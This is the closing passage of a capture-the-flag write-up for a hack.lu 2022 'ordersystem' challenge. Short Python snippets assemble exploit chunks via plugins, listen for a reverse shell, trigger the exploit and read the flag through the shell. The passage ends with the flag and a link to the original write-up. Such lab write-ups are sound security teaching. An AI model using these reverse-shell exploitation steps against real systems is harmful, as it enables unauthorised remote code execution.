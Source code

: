 ### Run plugins to assemble exploit chunks

```  
for i in range(num_chunks):  
   run_plugin(str(i))  
```

### Run the exploit plugin

Now, we can listen for the reverse shell:

```  
reverse_shell = listen(rev_port)  
```

Run exploit code and spawn the reverse shell:

```  
run_plugin("expl")  
```

And finally get the flag  
```  
reverse_shell.sendline(b"echo $flag")  
flag = reverse_shell.readline()  
```

which rewards us with a reference I'm very [drawn
to](https://youtube.com/watch?v=hfM4xPyie78).

```  
flag{D1d_y0u_0rd3r_rc3?v=hfM4xPyie78}  
```  

Original writeup (https://enoflag.github.io/writeups/hacklu2022/ordersystem/).